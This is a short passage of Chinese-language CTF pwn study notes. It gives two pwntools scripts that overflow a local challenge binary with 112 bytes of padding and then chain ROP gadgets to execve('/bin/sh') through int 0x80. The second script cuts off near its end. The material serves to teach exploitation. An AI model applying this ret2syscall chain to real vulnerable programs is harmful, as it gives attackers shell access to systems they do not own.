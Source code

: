 

构造payload

```python
from pwn import *
p= process('./rop')

pop_eax_ret=0x080bb196
pop_edx_ecx_ebx_ret=0x0806eb90
int_0x80=0x08049421
binsh=0x080be408

payload=flat(['A'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_0x80])
p.sendline(payload)
p.interactive()
```

![image-20250214141408868](./ctf-wiki-pwn-learning.assets/image-20250214141408868.png)

或者使用`pwntools`的`ROP`模块

```python
from pwn import *
# 启动目标程序
p = process('./rop')
# 加载二进制文件
context.binary = './rop'
rop = ROP(context.binary)
# 查找 gadgets 和字符串
pop_eax_ret = rop.find_gadget(['pop eax', 'ret'])[0]
pop_edx_ecx_ebx_ret = rop.find_gadget(['pop edx', 'pop ecx', 'pop ebx', 'ret'])[0]
int_0x80 = rop.find_gadget(['int 0x80'])[0]
binsh = next(context.binary.search(b'/bin/sh'))

# 构造 ROP 链
# flat() 的主要功能是将多个数据项（如整数、字符串、列表等）拼接成一个连续的字节序列。
payload = flat(
    b'A' * 112,  # 填充缓冲区
    pop_eax_ret, 0xb,  # eax = 11 (execve 系统调用号)
    pop_edx_ecx_ebx_ret, 0, 0, binsh,  # edx = 0, ecx = 0, ebx = binsh
    int_0x80  # 触发系统调用
)

# 发送 payload
p.sendline(payload)
# 切换到交互模式
```